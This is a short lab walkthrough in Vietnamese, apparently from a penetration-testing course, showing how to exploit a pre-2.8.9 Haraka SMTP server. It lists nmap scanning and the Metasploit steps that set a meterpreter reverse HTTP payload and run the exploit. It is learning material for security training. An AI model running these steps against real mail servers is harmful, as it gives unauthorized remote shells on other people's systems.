


# Exploiting A Vulnerable SMTP Server

SMTP có thể chạy port 25 mặc định hoặc có thể chạy trên port 465 hay 587

Trong phần này ta sẽ khai thác server SMTP chạy bằng `haraka`

Haraka là open source để tăng performance SMTP server được viết bằng Node.js

Haraka đi kèm 1 plugin để xử lí tệp đính kèm và phiên bản trước V2.8.9 bị RCE

`setg RHOSTS 192.109.36.3`

`setg RHOST 192.109.36.3`

Dùng nmap scan 

`db_nmap -sV -O 192.109.36.3`

`search libssh_auth_bypass`

`use exploit/linux/smtp/haraka`

`options`

`set SRVPORT 9898`

`set email_to root@attackdefense.test`

`set payload linux/x64/meterpreter_reverse_http`

`set LHOST eth1`

`set LPORT 8080`

`run`

